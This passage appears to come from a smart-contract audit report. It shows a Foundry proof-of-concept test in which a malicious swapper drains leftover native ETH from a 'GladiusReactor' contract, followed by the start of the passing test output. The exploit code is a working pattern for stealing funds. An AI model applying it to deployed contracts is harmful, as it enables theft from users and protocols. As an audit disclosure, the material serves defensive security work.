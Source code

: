 ```solidity
            bytes32 orderHash
        ) = createAndSignOrder(order);

        (
            uint256 swapperInputBalanceStart,
            uint256 swapperOutputBalanceStart,
            uint256 swapperNativeBalanceStart,
            uint256 reactortNativeBalanceStart
        ) = _checkpointBalances();

        // Mallicious swapper execute order without partition
        vm.prank(swapper);
        reactor.execute(signedOrder);
        
        console.log("Input token: %s", address(tokenIn));
        console.log("Output token: %s\n", address(tokenOut));

        console.log("Input amount: %s", inputAmount);
        console.log("Output amount: %s\n", outputAmount);

        console.log("Swapper Start NATIVE Balance: %s", swapperNativeBalanceStart);
        console.log("Swapper End NATIVE Balance: %s", address(swapper).balance);
        console.log("Swapper GAIN NATIVE: +%s With swap: %s\n", address(swapper).balance - swapperNativeBalanceStart, swapperInputBalanceStart - tokenIn.balanceOf(address(swapper)));
        
        console.log("GladiusReactor Start NATIVE Balance: %s", reactortNativeBalanceStart);
        console.log("GladiusReactor End NATIVE Balance: %s", address(reactor).balance);
        console.log("GladiusReactor LOST NATIVE: -%s\n", reactortNativeBalanceStart - address(reactor).balance);
        
        assertGt(address(swapper).balance, swapperNativeBalanceStart);
        assertEq(swapperInputBalanceStart - tokenIn.balanceOf(address(swapper)), feeAmount);
    }

    function _createRemainingEtheInGladiusReactor() internal {
        (bool success, ) = address(reactor).call{value: 10 ether}("");
        require(success);
    }

    function _checkpointBalances()
        internal
        view
        returns (
            uint256 swapperInputBalanceStart,
            uint256 swapperOutputBalanceStart,
            uint256 swapperNativeBalanceStart,
            uint256 reactortNativeBalanceStart
        )
    {
        swapperInputBalanceStart = tokenIn.balanceOf(address(swapper));
        swapperOutputBalanceStart = tokenOut.balanceOf(address(swapper));
        swapperNativeBalanceStart = address(swapper).balance;
        reactortNativeBalanceStart = address(reactor).balance;
    }
}
```
---
#### The Result of PoC
```solidity
Running 1 test for test/audit-poc/GladiusReactor.poc.sol:GladiusReactorPoCTest
[PASS] test_Gain_Remaining_GladiusNativeBalance_Via_Swap_Dust() (gas: 302743)
Logs:
  Input token: 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
```